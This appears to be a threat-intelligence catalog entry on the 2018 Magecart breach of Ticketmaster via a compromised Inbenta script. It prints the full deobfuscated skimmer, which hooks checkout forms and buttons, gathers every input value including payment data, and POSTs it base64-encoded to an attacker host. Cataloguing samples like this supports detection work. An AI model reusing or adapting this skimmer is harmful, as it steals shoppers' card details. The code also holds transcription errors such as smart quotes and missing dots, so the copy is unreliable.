 ```yaml
---
title: Ticketmaster magecart skimmer
date: '2018-06-09'
tags:
  - web
  - supply-chain
  - magecart
  - e-skimmer
---
```


Ticketmaster's checkout page included a third party JavaScript resource hosted by Inbenta. Inbenta and this script became compromised with an obfuscated payload added. The deobfuscated code is below and shows the skimmer grabbing payment data from form input values and sending them to a third party server.

If you have the obfuscated code, please submit it as a sample.

- - -

## References

- [Inside and Beyond Ticketmaster: The Many Breaches of Magecart](https://www.riskiq.com/blog/labs/magecart-ticketmaster-breach/)

## Payload

```js
var skimmer = {
  snd: null,
  gate: "https://webfotce.me/js/form.js",
    myid: (function(cname) {
      var cd = document.cookie.match(new RegExp("( ? : ^ | ;)" + cname.replace(/([\.$?*|{}\(\)\[\]\\\/\+^])/g, "\$1") + " = ([ ^ ;] * )"));
      return cd ? decodeURIComponent(cd[1]) : undefined
    })("setidd") || (function() {
      var d = new Date();
      var time_id = d.getTime() + " -" +Math.floor(Math.random() * (999999999– 11111111 + 1) + 11111111);
      var exp = new Date(new Date().getTime() + 60 * 60 * 24 * 1000);
      document.cookie = "setidd = "+time_id + ";
      path = /; expires=" + exp.toUTCString();
      return time_id
    })(),
  clk: function() {
    skimmer.snd. = null;
    var inp = document.querySelectorAll("input, select, textarea, checkbox, button");
    for (var i = 0; i < inp.length; i++) {
      if (inp[i].value.length > 0) {
        var nme = inp[i].name;
        if (nme == ”) {
          nme = i
        };
        skimmer.snd += inp[i].name + " = "+inp[i].value + " & "
      }
    }
  },
  send: function() {
    try {
      var btn = document.querySelectorAll("a[href *= \"javascript: void(0)\"], button, input, submit, .btn, .button");
      for (var i = 0; i < btn.length; i++) {
        var b = btn[i];
        if (b.type != "text" && b.type != "select" && b.type != "checkbox" && b.type != "password" && b.type != "radio") {
          if (b.addEventListener) {
            b.addEventListener("click", skimmer.clk, false)
          } else {
            b.attachEvent("onclick", skimmer.clk)
          }
        }
      };
      var frm = document.querySelectorAll("form");
      for (var i = 0; i < frm.length; i++) {
        if (frm[i].addEventListener) {
          frm[i] addEventListener("submit", skimmer.clk, false)
        } else {
          frm[i].attachEvent("onsubmit", skimmer.clk)
        }
      };
      if (skimmer.snd != null) {
        var hostname = location.hostname.split(".").slice(0).join("_") || "nodomain";
        var enc_info = btoa(skimmer.snd);
        var http = new XMLHttpRequest();
        http.open("POST", skimmer.gate, true);
        http.setRequestHeader("Content - type", "application / x - www - form - urlencoded");
        http.send("info = "+enc_info + " & hostname = ticketmUK & key = "+skimmer.myid)
      };
      skimmer.snd = null;
      enc_info = null;
      setTimeout(function() {
        skimmer.send()
      }, 30)
    } catch (e) {}
  }
};
if ((new RegExp("order | checkout | onestep", "gi")).test(window.location)) {
  skimmer.send()
}
```
